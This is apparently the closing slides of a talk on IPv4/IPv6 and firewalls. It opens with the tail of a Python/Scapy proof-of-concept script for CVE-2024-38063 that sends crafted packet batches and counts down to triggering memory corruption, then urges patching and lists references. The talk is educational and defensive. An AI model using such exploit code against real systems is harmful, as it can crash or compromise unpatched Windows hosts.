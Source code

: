 ```python
    return [first, second, third]

final_ps = []
for _ in range(num_batches):
    for i in range(num_tries):
        final_ps += get_packets(i) + get_packets(i)

print("Sending packets")
if mac_addr != '':
    sendp(final_ps, iface)
else:
    send(final_ps, iface)

for i in range(60):
    print(f"Memory corruption will be triggered in {60-i} seconds", end='\r')
    time.sleep(1)
print("")
```


---
layout: default
---

# Patch your OS!

https://github.com/ynwarcs/CVE-2024-38063/

---
layout: default
---
References:
- WarGames (1983) - IMDb | https://www.imdb.com/title/tt0086567/?ref_=fn_al_tt_2
- What is CIDR? - CIDR Blocks and Notation | https://aws.amazon.com/what-is/cidr/
- CIDR.xyz | https://cidr.xyz
- IPv4 vs. IPv6 - What is IPV6? | https://www.thousandeyes.com/learning/techtorials/ipv4-vs-ipv6
- Guidlines on Firewalls and Firewall Policy - NIST Special Publication 800-41 Rev. 1 | https://nvlpubs.nist.gov/nistpubs/Legacy/SP/nistspecialpublication800-41r1.pdf
- IEN119 | https://www.rfc-editor.org/ien/ien119.txt (What is IPV5)
- RFC2460 | https://www.rfc-editor.org/rfc/rfc2460
- RFC8200 | https://www.rfc-editor.org/rfc/rfc8200
- What Happened to IPv5? | https://www.lifewire.com/what-happened-to-ipv5-3971327
- CVE-2024-38063 | https://github.com/ynwarcs/CVE-2024-38063
- Exploiting CVE-2024-38063 | https://www.malwaretech.com/2024/08/exploiting-CVE-2024-38063.html
---
layout: end
---
# Thank you!
